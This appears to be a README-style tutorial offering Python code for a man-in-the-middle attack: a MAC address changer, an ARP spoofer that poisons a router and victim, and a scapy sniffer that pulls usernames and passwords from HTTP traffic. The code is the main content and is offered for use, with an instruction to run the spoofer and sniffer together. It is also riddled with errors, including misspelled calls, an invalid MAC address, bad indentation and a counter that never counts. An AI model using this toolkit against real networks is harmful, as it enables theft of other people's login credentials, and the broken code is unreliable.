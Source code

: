 # Sniffer-code
for sniffing the code first u need know how to change the mac address and do the ARP spoofing i will be providing the code for both mac address changing and arp spoofing.
MAC ADDRESS CHANGING IN PYTHON
import subprocess
import optparse
def get_arguments():
  parser=optparse.OptionParser()
  parser.add_option("-i", "--interface", dest="interface", help="enter the correct ip address")
  parser.add_option("-m", "--macadress", dest="new_mac", help="enter the correct mac address")
  (options,arguments)=parser.parse_args()
def change_mac(interface,new_mac):
   printf("changing mac address for " + interface + " to " +new_mac)
   subprocess.call(["ifconfig", interface, "down"])
   subprocess.call(["ifconfig", interface, "hw", "ether", new_mac])
   subprocess.cal(["ifconfig", interface, "up"])
options=get_arguments()
change_mac(options.interface,options.new_mac)
ARP SPOOFING IN PYTHON
import scapy.all as scapy
def get_mac(ip):
  request=scapy.ARP(pdst=ip)#your are requesting destination ip
  broadcast=scapy.Ether(dst="ff:ff:ff:gg:aa:aa")#after collecting destinatio ip i am setting it into default ip which i need
  request_broadcast=broadcast/request
  answered_list=scapy.srp(request_broadcast, timeout=1, verbose=false)[0]
  answered_list[0][1].hwsrc #users hardware source
  clients_list=[]
  for element in answered_list:
     client_dict={"ip":element[1].psrc, "mac":element[1].psrc}
     client_list.append(client_dict)
  return clients_list
  def spoof(targetip, spoofip):
    packet=scapy.ARP(op=2, pdst=targetip hwdst="00:11:22:33:44:55:66", psrc=spoofip) #here in hwdst field u should give ur destination mac for example i have given that
    scapy.send(packet,verbose=False)
sent_packets_count=0
while true:
   spoof("ur router ip ", "ur ip")
   spoof("ur ip","ur router ip")
   sent_packets_count=0
   print("packets sent: " + str(sent_packets_count), end=" ")
   time.sleep(2)
NOW OUR MAIN CODE SNIFFIER
import scapy.all as scapy
from scapy.layers import http
def sniff(interface):
   scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)
def get_url(packet):
   return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
def get_login_info(packet):
   if packet.haslayer(scapy.Raw):
      load=packet[scapy.Raw].load
      keywords=["username", "user", "login", "password", "pass"]
      for keyword in keywords:
         if keyword in load:
             return load
               break
def process_sniffed_packet(packet):
   if packet.haslayer(http.HTTPRequest):
      url = get_url(packet)
      print(" http request" + url)
      login_info=get_login_info(packet)
      if login_info:
         print("\n username and password" + login_info + "\n")
sniff("ur network ") #when u type ifconfig in your linux u will be getting list of networks like eth0, wlan0, l0,.. that are working now u can choose any of them in that and enter in sniff function when your calling the function
/****##$$$^^^ REMAINDER WHEN YOU WANT TO SNIFFING U HAVE TO RUN TO CODES ONE IS ARP SPOOFING AND NEXT ONE IS SNIFFER CODE HOWEVER YOU WILL EXECUTE MAC  ADDRESS CODE ^^^$$$$##****/
